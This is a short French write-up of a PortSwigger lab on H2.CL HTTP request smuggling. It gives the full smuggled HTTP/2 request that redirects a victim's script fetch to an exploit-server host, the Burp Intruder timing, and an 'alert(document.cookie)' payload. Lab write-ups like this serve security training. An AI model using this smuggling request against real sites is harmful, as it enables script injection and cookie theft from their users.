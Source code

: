 # Lab

https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling

## Solution

Ce lab est complexe car il faut que notre attaque HTTP Request Smuggling soit effective dans une fenêtre de 5s random car :

```js
setTimeout(() => {
    const script = document.createElement('script');
    document.body.appendChild(script);
    uid = Math.random().toString(10).substr(2, 10);
    script.src = '/resources/js/analytics.js?uid=' + uid;
}, 5000);
```

A chaque connexion à la page d'accueil, une requête est effectuée 5 secondes après pour récupérer un script et c'est cette requête que nous allons attaquer.

Burp Intruder, une requête à la fois, délai de 300ms entre chaque requête.

```http
POST / HTTP/2
Host: 0a2000ef04c288f98006621b00300049.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /resources HTTP/1.1
Host: exploit-0aea00000448882e8025610d013b0089.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=§§
```

Dans exploit serveur, sous `/resources/` :

```js
alert(document.cookie);
```